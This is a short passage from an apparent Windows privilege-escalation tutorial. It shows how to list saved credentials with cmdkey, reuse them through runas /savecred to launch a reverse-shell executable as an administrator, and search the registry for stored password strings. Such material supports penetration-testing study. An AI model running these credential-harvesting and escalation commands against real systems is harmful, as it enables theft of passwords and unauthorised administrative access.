 **Saved credentials:** Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.  
`cmdkey /list`  

If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.  
`runas /savecred /user:admin reverse_shell.exe`  
  
**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below.  
`reg query HKLM /f password /t REG_SZ /s`  
`reg query HKCU /f password /t REG_SZ /s`